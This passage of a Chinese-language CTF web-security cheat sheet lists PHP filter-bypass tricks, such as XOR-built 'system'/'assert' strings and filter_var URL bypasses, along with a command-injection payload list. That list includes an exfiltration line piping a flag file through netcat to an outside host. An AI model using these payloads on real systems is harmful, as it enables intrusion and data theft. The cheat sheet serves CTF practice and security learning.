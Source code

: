 - 递增
    - `$a="9D9"; var_dump(++$a);`
        - `string(3) "9E0"`
    - `$a="9E0"; var_dump(++$a);`
        - `float(10)`

- 算数运算绕Filter
    - `%f3%f9%f3%f4%e5%ed & %7f%7f%7f%7f%7f%7f`
        - `system`
        - 可用在限制不能出现英数字时 or 过滤某些特殊符号
    - ```$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');```
        - `assert`
    - 其他
        - `~`, `++`等运算，也都可用类似概念构造

- 花括号
    - 数组、字符串元素存取可用花括号
    - `$array{index}`同`$array[index]`

- filter_var
    - `filter_var('http://evil.com;google.com', FILTER_VALIDATE_URL)`
        - False
    - `filter_var('0://evil.com;google.com', FILTER_VALIDATE_URL)`
        - True

- json_decode
    - 不直接吃掉换行字元和\t字元
    - 但可以吃掉'\n'和'\t'
        - 会转成换行字元和Tab

- === bug
    - `var_dump([0 => 0] === [0x100000000 => 0])`
        - 某些版本会是True
        - ASIS 2018 Qual Nice Code
    - https://3v4l.org/sUEMG
- openssl_verify
    - 预测採用SHA1来做签名，可能有SHA1 Collision问题
    - DEFCON CTF 2018 Qual


# Command Injection

```
| cat flag
&& cat flag
; cat flag
%0a cat flag
"; cat flag
`cat flag`
cat $(ls)
"; cat $(ls)
`cat flag | nc rs.panja.cc 5278`

. flag
PS1=$(cat flag)

`echo${IFS}${PATH}|cut${IFS}-c1-1`
=> /
```
